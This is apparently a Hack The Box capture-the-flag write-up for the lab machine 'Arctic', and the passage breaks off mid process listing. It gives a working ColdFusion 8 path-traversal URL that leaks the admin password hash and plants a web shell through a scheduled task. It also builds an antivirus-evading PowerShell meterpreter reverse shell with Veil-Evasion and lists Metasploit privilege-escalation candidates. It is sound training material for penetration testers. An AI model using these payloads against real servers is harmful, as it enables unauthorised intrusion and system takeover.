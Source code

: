 ```yaml
---
layout: post
title: Arctic(HTB)
categories:
  - Writeup
---
```


<br>OS Windows
<br>IP: 10.10.10.11
<br>Machine Author: ch4p

**Nmap**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -A 10.10.10.11</p>

<p>Starting Nmap 7.50 ( https://nmap.org ) at 2017-12-27 08:00 EST
<br>Nmap scan report for 10.10.10.11
<br>Host is up (0.16s latency).
<br>Not shown: 997 filtered ports
<br>PORT      STATE SERVICE VERSION
<br><font color="BB69EC">135/tcp</font>   open  <font color="53E100">msrpc</font>   Microsoft Windows RPC
<br><font color="BB69EC">8500/tcp</font>  open  <font color="53E100">fmtp?</font>
<br><font color="BB69EC">49154/tcp</font> open  <font color="53E100">unknown</font>
<br>Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
<br>Device type: specialized|WAP|phone
<br>Running: iPXE 1.X, Linux 2.4.X|2.6.X, Sony Ericsson embedded
<br>OS CPE: cpe:/o:ipxe:ipxe:1.0.0%2b cpe:/o:linux:linux_kernel:2.4.20 cpe:/o:linux:linux_kernel:2.6.22 cpe:/h:sonyericsson:u8i_vivaz
<br>OS details: iPXE 1.0.0+, Tomato 1.28 (Linux 2.4.20), Tomato firmware (Linux 2.6.22), Sony Ericsson U8i Vivaz mobile phone
<br>Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows</p>

<p>TRACEROUTE (using port 135/tcp)
<br>HOP RTT        ADDRESS
<br>1   191.61 ms  10.10.14.1
<br>2   ... 6
<br>7   2371.15 ms 10.10.14.1</p>

<p>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 85.23 seconds
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># </p>
</div>
</font>

<br>**Web**:-
![Web](https://teckk2.github.io/assets/images/Arctic/1-Arctic.png)
<br>On port:**8500** there are two directories 
<br>If we open **/cfdocs/** directory then we can see there is _adobe coldfusion 8_ is running on the web.
![coldfusion](https://teckk2.github.io/assets/images/Arctic/2-Arctic.png)
<br>For which there is a **LFI** exploit available using which we can reveal the admin password **hash**.
<br>[http://10.10.10.11:8500//CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en](http://10.10.10.11:8500//CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en)
![admin-hash](https://teckk2.github.io/assets/images/Arctic/3-Arctic.PNG)
<br>Now crack the password hash using [online tool](https://crackstation.net/) or if you want you can use john or hashcat.
![hash-cracker](https://teckk2.github.io/assets/images/Arctic/4-Arctic.PNG)
<br>The Password is _**{happyday}**_, now we can loggin into **coldfusion** as _admin_.
<br>And make sure that Coldfusion only allow two loggin at a time and it's really slow to response, So if you are unable to loggin then must be there is someone logged in or forget to logout, So revert the machine if you face any issue like this.
<br>Now Go to DEBUGGING & LOGGING tab and click on Scheduled Task now a page will popup then click on Schedule New Task.
![Shedule-Task](https://teckk2.github.io/assets/images/Arctic/5-Arctic.PNG)
![NEW-TASK](https://teckk2.github.io/assets/images/Arctic/6-Arctic.PNG)
<br>Before we proceed further we need to create a cfexec.cfm file which will give us a web shell. So, Copy The HTML payload From my [Pastebin](https://pastebin.com/KSZ4WrfV) and paste it in a new file and make sure to name it cfexec.cfm or it will not work because it's hardcoded.
![cfexec.cfm](https://teckk2.github.io/assets/images/Arctic/7-Arctic.PNG)
<br>Now Set up our WebServer and then fillup the shedule page as shown in the image below.
![python server](https://teckk2.github.io/assets/images/Arctic/8-Arctic.PNG)
![Shedule](https://teckk2.github.io/assets/images/Arctic/9-Arctic.PNG)
<br>If all goes correct then as soon you click the submit button, you will see the file request from the server.
![response](https://teckk2.github.io/assets/images/Arctic/10-Arctic.PNG)
<br>If you don't get file request automatically, then you can try clicking (_Run Shedule Task_) button below **Actions**.
<br>Now check the page we uploaded [http://10.10.10.11:8500/CFIDE/cfexec.cfm](http://10.10.10.11:8500/CFIDE/cfexec.cfm)
<br>It should be blank so we need to specify the cmd.exe location to execute the command and in option the command we need to execute and the output file.
![command](https://teckk2.github.io/assets/images/Arctic/11-Arctic.PNG)
<br>It will take around 10 to 20 sec to execute the command so wait untill the page loads, and after that cehck the output.txt file
![output](https://teckk2.github.io/assets/images/Arctic/12-Arctic.PNG)
<br>We got the RCE, there is an **AV** runnning on the target machine and in order to get reverse shell we need to create an encrypted payload in (.bat) format using [Veil-Evasion](https://github.com/Veil-Framework/Veil-Evasion) tool.
<br>Download the tool,No need to install just run the (Veil-Evasion.py) and generate the payload
<br>Check the list of Payload avaialble and chose (powershell/meterpreter/rev_tcp).
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Downloads/Veil-Evasion-master</font># ./Veil-Evasion.py</p>
<p>=========================================================================
<br>&nbsp;Veil-Evasion | [Version]: 2.28.2
<br>=========================================================================
<br>&nbsp;[Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
<br>=========================================================================</p>

<p>&nbsp;Main Menu</p>

<p>&nbsp;<font color="53E100">51</font> payloads loaded</p>

<p>&nbsp;Available Commands:</p>

<p>&nbsp;use&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Use a specific payload
<br>&nbsp;info&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Information on a specific payload
<br>&nbsp;list&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;List available payloads
<br>&nbsp;update&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Update Veil-Evasion to the latest version
<br>&nbsp;clean&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Clean out payload folders
<br>&nbsp;checkvt&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Check payload hashes vs. VirusTotal
<br>&nbsp;exit&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Exit Veil-Evasion</p>

<p>&nbsp;[menu>>]: <font color="BB69EC">list</font></p>
<p>=========================================================================
<br>&nbsp;Veil-Evasion | [Version]: 2.28.2
<br>=========================================================================
<br>&nbsp;[Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
<br>=========================================================================</p>


<p>&nbsp;<font color="53E100">[*] Available Payloads:</font></p>

<p>&nbsp;1)	auxiliary/coldwar_wrapper
<br>&nbsp;2)	auxiliary/macro_converter
<br>&nbsp;3)	auxiliary/pyinstaller_wrapper</p>

<p>&nbsp;4)	c/meterpreter/rev_http  
<br>&nbsp;5)	c/meterpreter/rev_http_service
<br>&nbsp;6)	c/meterpreter/rev_tcp   
<br>&nbsp;7)	c/meterpreter/rev_tcp_service
<br>&nbsp;8)	c/shellcode_inject/flatc</p>

<p>&nbsp;9)	cs/meterpreter/rev_http 
<br>&nbsp;10)	cs/meterpreter/rev_https
<br>&nbsp;11)	cs/meterpreter/rev_tcp  
<br>&nbsp;12)	cs/shellcode_inject/base64_substitution
<br>&nbsp;13)	cs/shellcode_inject/virtual</p>

<p>&nbsp;14)	go/meterpreter/rev_http 
<br>&nbsp;15)	go/meterpreter/rev_https
<br>&nbsp;16)	go/meterpreter/rev_tcp  
<br>&nbsp;17)	go/shellcode_inject/virtual</p>

<p>&nbsp;18)	native/backdoor_factory 
<br>&nbsp;19)	native/hyperion         
<br>&nbsp;20)	native/pe_scrambler</p>     

<p>&nbsp;21)	perl/shellcode_inject/flat</p>

<p>&nbsp;22)	powershell/meterpreter/rev_http
<br>&nbsp;23)	powershell/meterpreter/rev_https
<br>&nbsp;24)	powershell/meterpreter/rev_tcp
<br>&nbsp;25)	powershell/shellcode_inject/download_virtual
<br>&nbsp;26)	powershell/shellcode_inject/download_virtual_https
<br>&nbsp;27)	powershell/shellcode_inject/psexec_virtual
<br>&nbsp;28)	powershell/shellcode_inject/virtual</p>

<p>&nbsp;29)	python/meterpreter/bind_tcp
<br>&nbsp;30)	python/meterpreter/rev_http
<br>&nbsp;31)	python/meterpreter/rev_http_contained
<br>&nbsp;32)	python/meterpreter/rev_https
<br>&nbsp;33)	python/meterpreter/rev_https_contained
<br>&nbsp;34)	python/meterpreter/rev_tcp
<br>&nbsp;35)	python/shellcode_inject/aes_encrypt
<br>&nbsp;36)	python/shellcode_inject/aes_encrypt_HTTPKEY_Request
<br>&nbsp;37)	python/shellcode_inject/arc_encrypt
<br>&nbsp;38)	python/shellcode_inject/base64_substitution
<br>&nbsp;39)	python/shellcode_inject/des_encrypt
<br>&nbsp;40)	python/shellcode_inject/download_inject
<br>&nbsp;41)	python/shellcode_inject/flat
<br>&nbsp;42)	python/shellcode_inject/letter_substitution
<br>&nbsp;43)	python/shellcode_inject/pidinject
<br>&nbsp;44)	python/shellcode_inject/stallion</p>

<p>&nbsp;45)	ruby/meterpreter/rev_http
<br>&nbsp;46)	ruby/meterpreter/rev_http_contained
<br>&nbsp;47)	ruby/meterpreter/rev_https
<br>&nbsp;48)	ruby/meterpreter/rev_https_contained
<br>&nbsp;49)	ruby/meterpreter/rev_tcp
<br>&nbsp;50)	ruby/shellcode_inject/base64
<br>&nbsp;51)	ruby/shellcode_inject/flat</p>

<p>&nbsp;[menu>>]: <font color="BB69EC">use 24</font></p>
<p>=========================================================================
<br>&nbsp;Veil-Evasion | [Version]: 2.28.2
<br>=========================================================================
<br>&nbsp;[Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
<br>=========================================================================</p>


<p>&nbsp;Payload: powershell/meterpreter/rev_tcp loaded</p>


<p>&nbsp;Required Options:</p>

<p>&nbsp;Name&nbsp;&nbsp;&nbsp;Current&nbsp;Value&nbsp;Description
<br>&nbsp;----&nbsp;&nbsp;&nbsp;-------------&nbsp;-----------
<br>&nbsp;LHOST&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;IP of the Metasploit handler
<br>&nbsp;LPORT&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;4444&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Port of the Metasploit handler</p>

<p>&nbsp;Available Commands:</p>

<p>&nbsp;set&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Set a specific option value
<br>&nbsp;info&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Show information about the payload
<br>&nbsp;options&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Show payload's options
<br>&nbsp;generate&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Generate payload
<br>&nbsp;back&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Go to the main menu
<br>&nbsp;exit&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;exit Veil-Evasion</p>

<p>&nbsp;[powershell/meterpreter/rev_tcp>>]: <font color="BB69EC">set LHOST 10.10.*.*</font>
<br>&nbsp;[i] LHOST => 10.10.*.*
<br>&nbsp;[powershell/meterpreter/rev_tcp>>]: <font color="BB69EC">set LPORT 4455</font>
<br>&nbsp;[i] LPORT => 4455
<br>&nbsp;[powershell/meterpreter/rev_tcp>>]: <font color="BB69EC">generate</font></p>
 
<p>=========================================================================
<br>&nbsp;Veil-Evasion | [Version]: 2.28.2
<br>=========================================================================
<br>&nbsp;[Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
<br>=========================================================================</p>


<p>&nbsp;[>] Please enter the base name for output files (default is 'payload'): arctic</p>

<p>&nbsp;Language:		<font color="53E100">powershell</font>
<br>&nbsp;Payload:		powershell/meterpreter/rev_tcp
<br>&nbsp;Required Options:      LHOST=10.10.*.*  LPORT=4455
<br>&nbsp;Payload File:		/var/lib/veil-evasion/output/source/arctic.bat
<br>&nbsp;Handler File:		/var/lib/veil-evasion/output/handlers/arctic_handler.rc</p>

<p>&nbsp;[*] Your payload files have been generated, don't get caught!
<br>&nbsp;<font color="ffff00">[!] And don't submit samples to any online scanner! ;)</font></p>

<p>&nbsp;[>] Press any key to return to the main menu.</p>
</div>
</font>
<br>Our payload has been generate, now copy the payload to desktop and set up the webserver if it's not already running to upload the file.
<font size="1">
<div style="height:100px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Downloads/Veil-Evasion-master</font># cp /var/lib/veil-evasion/output/source/arctic.bat /root/Desktop/
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Downloads/Veil-Evasion-master</font># cd /root/Desktop/
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># python -m SimpleHTTPServer 80
<br>Serving HTTP on 0.0.0.0 port 80 ...</p>
</div>
</font>
<br>Now upload the file using the same method we uploaded our HTML payload earlier using (Shedule Task), for this create a new shedule task and trigger the file using our web shell.
![arctic-shell](https://teckk2.github.io/assets/images/Arctic/13-Arctic.PNG)
<br>amd make sure to save the file at (C:\ColdFusion8\wwwroot\CFIDE\arctic.bat)
<br>Then run the button **(Run Shedule Task)** under **(Actions)** to upload the file to the server.
![Start-shedule-task](https://teckk2.github.io/assets/images/Arctic/14-Arctic.PNG)
<br>Before we proceed ahead check if the payload file has been uploaded successfully or not?
![arctic.bat](https://teckk2.github.io/assets/images/Arctic/15-Arctic.PNG)
<br>Now set up the listner and execute the file from the web
![arctic.bat-2](https://teckk2.github.io/assets/images/Arctic/16-Arctic.PNG)
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p>msf > use exploit/multi/handler 
<br>msf exploit(<font color="red">handler</font>) > set payload windows/meterpreter/reverse_tcp
<br>payload => windows/meterpreter/reverse_tcp
<br>msf exploit(<font color="red">handler</font>) > set LHOST 10.10.*.*
<br>LHOST => 10.10.*.*
<br>msf exploit(<font color="red">handler</font>) > set LPORT 4455
<br>LPORT => 4455
<br>msf exploit(<font color="red">handler</font>) > exploit </p>

<p><font color="RoyalBlue">[*]</font> Started reverse TCP handler on 10.10.*.*:4455 
<br><font color="RoyalBlue">[*]</font> Starting the payload handler...
<br><font color="RoyalBlue">[*]</font> Sending stage (957487 bytes) to 10.10.10.11
<br><font color="RoyalBlue">[*]</font> Meterpreter session 1 opened (10.10.**.*:4455 -> 10.10.10.11:65155) at 2017-12-30 02:24:25 -0500</p>

<p>meterpreter > sysinfo 
<br>Computer&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;: ARCTIC
<br>OS&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;: Windows 2008 R2 (Build 7600).
<br>Architecture&nbsp;&nbsp;&nbsp;&nbsp;: x64
<br>System Language : el_GR
<br>Domain&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;: HTB
<br>Logged On Users : 1
<br>Meterpreter&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;: x86/windows
<br>meterpreter > getuid
<br>Server username: ARCTIC\tolis
<br>meterpreter > run post/multi/recon/local_exploit_suggester</p>

<p><font color="RoyalBlue">[*]</font> 10.10.10.11 - Collecting local exploits for x86/windows...
<br><font color="RoyalBlue">[*]</font> 10.10.10.11 - 37 exploit checks are being tried...
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/ms_ndproxy: The target service is running, but could not be validated.
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
<br>meterpreter > </p>
</div>
</font>
<br>There are few exploits suggested by **MSF** which we can use to gain Admin/System Levle access, but before we start, weneed to migrate our meterpreter to x64/windows meterpreter session because the Architectur is X64 and our current session is X86/windows.
<br>There are two ways to migrate either you create another payload with x64 sepecified then upload and execute it and get meterpreter or you can migrate to a X64 session which already running on the system.
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p>meterpreter > ps</p>

<p>Process List
<br>============</p>

 <p>PID&nbsp;&nbsp;&nbsp;PPID&nbsp;&nbsp;Name&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Arch&nbsp;&nbsp;Session&nbsp;&nbsp;User&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Path
 <br>---&nbsp;&nbsp;&nbsp;----&nbsp;&nbsp;----&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;----&nbsp;&nbsp;-------&nbsp;&nbsp;----&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;----
 <br>0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;[System Process]                                      
 <br>4&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;System                                                
 <br>236&nbsp;&nbsp;&nbsp;4&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;smss.exe                                              
 <br>272&nbsp;&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;svchost.exe                                           
 <br>324&nbsp;&nbsp;&nbsp;316&nbsp;&nbsp;&nbsp;csrss.exe                                             
 <br>336&nbsp;&nbsp;&nbsp;1168&nbsp;&nbsp;cmd.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x64&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ARCTIC\tolis&nbsp;&nbsp;C:\Windows\System32\cmd.exe
 <br>368&nbsp;&nbsp;&nbsp;316&nbsp;&nbsp;&nbsp;wininit.exe                                           
 <br>388&nbsp;&nbsp;&nbsp;376&nbsp;&nbsp;&nbsp;csrss.exe                                             
 <br>440&nbsp;&nbsp;&nbsp;376&nbsp;&nbsp;&nbsp;winlogon.exe                                          
 <br>484&nbsp;&nbsp;&nbsp;368&nbsp;&nbsp;&nbsp;services.exe                                          
 <br>492&nbsp;&nbsp;&nbsp;368&nbsp;&nbsp;&nbsp;lsass.exe                                             
 <br>500&nbsp;&nbsp;&nbsp;368&nbsp;&nbsp;&nbsp;lsm.exe                                               
 <br>600&nbsp;&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;svchost.exe                                           
 <br>672&nbsp;&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;svchost.exe                                           
 <br>748&nbsp;&nbsp;&nbsp;440&nbsp;&nbsp;&nbsp;LogonUI.exe                                           
 <br>756&nbsp;&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;svchost.exe                                           
 <br>796&nbsp;&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;svchost.exe                                           
 <br>844&nbsp;&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;svchost.exe                                           
 <br>892&nbsp;&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;svchost.exe                                           
 <br>932&nbsp;&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;svchost.exe                                           
 <br>944&nbsp;&nbsp;&nbsp;324&nbsp;&nbsp;&nbsp;conhost.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x64&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ARCTIC\tolis&nbsp;&nbsp;C:\Windows\System32\conhost.exe
 <br>952&nbsp;&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;spoolsv.exe                                           
 <br>1004&nbsp;&nbsp;324&nbsp;&nbsp;&nbsp;conhost.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x64&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ARCTIC\tolis&nbsp;&nbsp;C:\Windows\System32\conhost.exe
 <br>1036&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;CF8DotNetsvc.exe                                      
 <br>1080&nbsp;&nbsp;1036&nbsp;&nbsp;JNBDotNetSide.exe                                     
 <br>1088&nbsp;&nbsp;324&nbsp;&nbsp;&nbsp;conhost.exe                                           
 <br>1124&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;dllhost.exe                                           
 <br>1140&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;jrunsvc.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x64&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ARCTIC\tolis&nbsp;&nbsp;C:\ColdFusion8\runtime\bin\jrunsvc.exe
 <br>1168&nbsp;&nbsp;1140&nbsp;&nbsp;jrun.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x64&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ARCTIC\tolis&nbsp;&nbsp;C:\ColdFusion8\runtime\bin\jrun.exe
 <br>1176&nbsp;&nbsp;324&nbsp;&nbsp;&nbsp;conhost.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x64&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ARCTIC\tolis&nbsp;&nbsp;C:\Windows\System32\conhost.exe
 <br>1184&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;swagent.exe                                           
 <br>1220&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;swstrtr.exe                                           
 <br>1228&nbsp;&nbsp;1220&nbsp;&nbsp;swsoc.exe                                             
 <br>1236&nbsp;&nbsp;324&nbsp;&nbsp;&nbsp;conhost.exe                                           
 <br>1240&nbsp;&nbsp;600&nbsp;&nbsp;&nbsp;WmiPrvSE.exe                                          
 <br>1304&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;k2admin.exe                                           
 <br>1364&nbsp;&nbsp;324&nbsp;&nbsp;&nbsp;conhost.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x64&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ARCTIC\tolis&nbsp;&nbsp;C:\Windows\System32\conhost.exe
 <br>1436&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;svchost.exe                                           
 <br>1480&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;VGAuthService.exe                                     
 <br>1736&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;vmtoolsd.exe                                          
 <br>1748&nbsp;&nbsp;3180&nbsp;&nbsp;powershell.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x86&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ARCTIC\tolis&nbsp;&nbsp;C:\Windows\syswow64\windowspowershell\v1.0\powershell.exe
 <br>1760&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;ManagementAgentHost.exe                               
 <br>2052&nbsp;&nbsp;1304&nbsp;&nbsp;k2server.exe                                          
 <br>2060&nbsp;&nbsp;324&nbsp;&nbsp;&nbsp;conhost.exe                                           
 <br>2128&nbsp;&nbsp;1304&nbsp;&nbsp;k2index.exe                                           
 <br>2144&nbsp;&nbsp;324&nbsp;&nbsp;&nbsp;conhost.exe                                           
 <br>2320&nbsp;&nbsp;1168&nbsp;&nbsp;cmd.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x64&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ARCTIC\tolis&nbsp;&nbsp;C:\Windows\System32\cmd.exe
 <br>2892&nbsp;&nbsp;796&nbsp;&nbsp;&nbsp;taskeng.exe                                           
 <br>2920&nbsp;&nbsp;324&nbsp;&nbsp;&nbsp;conhost.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x64&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ARCTIC\tolis&nbsp;&nbsp;C:\Windows\System32\conhost.exe
 <br>3032&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;svchost.exe                                           
 <br>3172&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;msdtc.exe                                             
